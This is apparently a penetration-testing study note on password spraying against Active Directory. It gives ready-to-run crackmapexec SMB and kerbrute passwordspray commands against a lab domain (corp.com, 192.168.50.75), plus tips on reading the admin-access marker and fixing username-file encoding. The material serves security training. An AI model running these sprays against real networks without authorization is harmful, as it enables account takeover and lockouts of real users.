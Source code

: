 















### Using SMB
For every authentication attempt, a full SMB connection has to be set up and then terminated. As a result, this kind of password attack is very noisy due to the generated network traffic. It is also quite slow in comparison to other techniques.  

```
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```


If the user with the identified credentials has administrative privileges crackmapexec adds `Pwn3d!` to the output. In an assessment, this is an excellent feature to determine the level of access we have without performing additional enumeration.



















### Using Kerberos TGT / kerbrute

- <https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html>
- <https://github.com/ropnop/kerbrute>


```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
(make sure that the encoding of usernames.txt is ANSI!)

Get-Content "input.txt" | Out-File "output.txt" -Encoding ASCII
















